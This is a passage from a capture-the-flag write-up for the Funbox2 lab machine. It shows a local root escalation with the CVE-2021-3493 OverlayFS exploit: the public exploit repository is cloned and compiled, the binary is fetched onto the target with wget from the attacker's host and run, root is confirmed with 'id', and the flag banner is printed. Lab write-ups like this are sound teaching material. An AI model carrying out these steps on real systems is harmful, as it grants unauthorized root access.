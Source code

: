 #### CVE-2021-3493

##### exp_prepare

```bash
git clone https://github.com/briskets/CVE-2021-3493.git
cd CVE-2021-3493
x86_64-linux-gnu-gcc exploit.c -o exp --static
md5sum exp   
5f008b8d724985a0ef2bb9b85bd1959f  exp
```

##### exp_run

```bash
tom@funbox2:/$ uname -a
Linux funbox2 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
wget http://10.8.0.153/exp
tom@funbox2:~$ wget http://10.8.0.153/exp
tom@funbox2:~$ chmod +x exp
tom@funbox2:~$ ./exp
bash-4.4# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(tom)
bash-4.4# 
```

### flag

```bash
root@funbox2:/root# cat flag.txt 
   ____  __  __   _  __   ___   ____    _  __             ___ 
  / __/ / / / /  / |/ /  / _ ) / __ \  | |/_/            |_  |
 / _/  / /_/ /  /    /  / _  |/ /_/ / _>  <             / __/ 
/_/    \____/  /_/|_/  /____/ \____/ /_/|_|       __   /____/ 
           ____ ___  ___  / /_ ___  ___/ /       / /          
 _  _  _  / __// _ \/ _ \/ __// -_)/ _  /       /_/           
(_)(_)(_)/_/   \___/\___/\__/ \__/ \_,_/       (_)            
                                                              
from @0815R2d2 with ♥
```

## 172.16.33.78
